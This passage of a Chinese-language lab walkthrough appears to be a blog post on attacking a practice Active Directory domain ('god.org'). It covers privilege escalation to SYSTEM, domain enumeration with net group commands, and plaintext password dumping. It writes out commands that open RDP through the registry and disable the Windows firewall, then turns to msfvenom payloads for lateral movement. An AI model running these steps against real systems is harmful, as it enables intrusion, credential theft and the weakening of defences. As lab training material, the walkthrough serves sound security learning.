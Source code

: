 
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678852519570-9282ea7f-2ff3-4417-b5fb-70b750755f85.png#averageHue=%23d3dce6&clientId=u531c24f4-2300-4&from=paste&height=272&id=u3e8ba317&name=image.png&originHeight=340&originWidth=1012&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=88159&status=done&style=none&taskId=u5f18e8bc-a47a-406c-97a7-6bfabc08b24&title=&width=809.6)
这里使用梼杌脚本的信息收集，进行常用信息收集。
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678852556529-ec01b280-1e20-442d-a9cd-4e5972fd6a4e.png#averageHue=%23dcdfe5&clientId=u531c24f4-2300-4&from=paste&height=73&id=u9d209342&name=image.png&originHeight=91&originWidth=335&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=14101&status=done&style=none&taskId=ucfae70ab-eff2-4b95-899e-b94b793c64c&title=&width=268)
由于我们首先要知道服务器安装了什么补丁，所以我们这里先查看安装补丁。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678868766593-538e1ef4-6601-4cc0-8436-31ccf18c77e0.png#averageHue=%23150c08&clientId=u531c24f4-2300-4&from=paste&height=169&id=uc816fd80&name=image.png&originHeight=211&originWidth=684&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=36617&status=done&style=none&taskId=u830ed059-c12a-4ac2-af18-533d7f10fe6&title=&width=547.2)
这里查看到电脑只安装了四个补丁。就这？直接提权！

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678852658536-02d70f8f-a3d5-4f79-aa00-1ec2ae43a791.png#averageHue=%23879089&clientId=u531c24f4-2300-4&from=paste&height=194&id=u94e58bcc&name=image.png&originHeight=242&originWidth=708&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=79838&status=done&style=none&taskId=uad366c4a-66e9-4ed0-bc16-8c4db50c0fc&title=&width=566.4)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678852684102-3d81756b-d031-443c-8855-80e54ef39d52.png#averageHue=%235d6755&clientId=u531c24f4-2300-4&from=paste&height=382&id=ud8d4b112&name=image.png&originHeight=478&originWidth=1138&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=198407&status=done&style=none&taskId=ub6162c31-b0b6-4905-bfa9-f53cb9864c1&title=&width=910.4)
可以看到成功拿到了system的权限，可以为所欲为了。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678868864024-aee496af-903d-41a9-b941-1704c2c05732.png#averageHue=%23090605&clientId=u531c24f4-2300-4&from=paste&height=402&id=u53405578&name=image.png&originHeight=502&originWidth=721&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=90107&status=done&style=none&taskId=u779214ea-0045-4182-a751-8bd263381ae&title=&width=576.8)
这里查看网卡所有信息，发现了域名god.org和ip地址

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678868510642-1df80425-1f27-4aa2-9a7f-037ea9367a68.png#averageHue=%23060504&clientId=u531c24f4-2300-4&from=paste&height=186&id=ub719c811&name=image.png&originHeight=232&originWidth=689&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=30449&status=done&style=none&taskId=u3ce2bb0f-c687-45e2-83e4-ad573edf138&title=&width=551.2)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678867798723-7ff926e7-3dde-4bb6-b3f1-03c3e968dd68.png#averageHue=%23070605&clientId=u531c24f4-2300-4&from=paste&height=241&id=u223f28cb&name=image.png&originHeight=301&originWidth=695&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=41771&status=done&style=none&taskId=u9c4a359c-613a-43a4-9455-8ca388c8866&title=&width=556)
```bash
net group "domain Controllers" /domain			#查看域内所有域控制器
net group "domain computers" /domain				#查看域内所有成员计算机列表
net group "domain admins" /domain 					#查看域管理员用户
```
这里通过命令得到了域内的一些基本信息！

![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678868657411-a2013a57-a764-4eef-9cbc-c4a5e6cf5ef1.png#averageHue=%23d0c397&clientId=u531c24f4-2300-4&from=paste&height=334&id=u49836c4f&name=image.png&originHeight=418&originWidth=939&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=98363&status=done&style=none&taskId=ub85f60c8-f516-43be-b3a4-1e695531477&title=&width=751.2)
抓取明文密码，直接得到STU1主机下Administrator用户的密码！

```bash
#注册表开启3389端口
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f


关闭防火墙
netsh firewall set opmode disable   					#winsows server 2003 之前
netsh advfirewall set allprofiles state off 	#winsows server 2003 之后

```
这里确定主机开启3389端口，然后关闭防火墙，即可登录了！

## 五、横向移动
![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678869702288-f8c6bbf1-9c47-4b5e-bb6a-f05b7d7c867f.png#averageHue=%230f0d0b&clientId=u531c24f4-2300-4&from=paste&height=122&id=ua1f10949&name=image.png&originHeight=153&originWidth=455&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=15482&status=done&style=none&taskId=ub9d46202-a101-4823-8b72-1784abd4ca3&title=&width=364)
这里先在cs里面arp -a一下，发现一个网段有两台主机，分别是138和141

## ![image.png](https://cdn.nlark.com/yuque/0/2023/png/35224020/1678849310081-de4c4d77-3fda-425e-85c5-74693491e25e.png#averageHue=%23232731&clientId=u531c24f4-2300-4&from=paste&height=191&id=u3d4a3544&name=image.png&originHeight=238&originWidth=907&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=46819&status=done&style=none&taskId=ud278d104-9ca4-4005-8f7b-32a26ebbd0a&title=&width=726)
这里的步骤跟cs差不多，使用msfvenom生成一个window能运行使用的监听exe
LHOST填写本机ip，也就是使用msf的主机ip。端口填写一个不经常使用的。
